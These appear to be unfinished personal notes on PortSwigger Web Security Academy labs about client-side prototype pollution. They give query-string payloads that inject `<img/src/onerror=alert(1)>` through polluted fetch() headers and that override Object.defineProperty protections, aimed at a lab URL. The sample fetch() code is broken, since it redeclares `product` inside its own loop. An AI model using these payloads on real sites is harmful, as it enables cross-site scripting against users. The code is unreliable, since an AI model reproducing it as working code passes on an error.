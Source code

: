 Research: https://portswigger.net/research/widespread-prototype-pollution-gadgets

## Prototype pollution via fetch()
We can control any undefined properties of the options object passed to `fetch()`.

```js
fetch('/my-products.json',{method:"GET"})
    .then((response) => response.json())
    .then((data) => {
        let username = data['x-username'];
        let message = document.querySelector('.message');
        if(username) {
            message.innerHTML = `My products. Logged in as <b>${username}</b>`;
        }
        let productList = document.querySelector('ul.products');
        for(let product of data) {
            let product = document.createElement('li');
            product.append(product.name);
            productList.append(product);
        }
    })
    .catch(console.error);
```

```
?__proto__[headers][x-username]=<img/src/onerror=alert(1)>
```

## Prototype pollution via Object.defineProperty()
Developers may attempt to block potential gadgets by using:
```js
Object.defineProperty(vulnerableObject, 'gadgetProperty', {
    configurable: false,
    writable: false
})
```

An attacker may be able to bypass this defense by polluting `Object.prototype` with a malicious `value` property. If this is inherited by the descriptor object passed to `Object.defineProperty()`, the attacker-controlled value may be assigned to the gadget property after all.
#to-be-continued 
https://0a9300c90407a0488691da1000d60015.web-security-academy.net/?__proto__[value]=data:,alert(1);
TODO: complete, lab is broken

Research: https://portswigger.net/research/widespread-prototype-pollution-gadgets

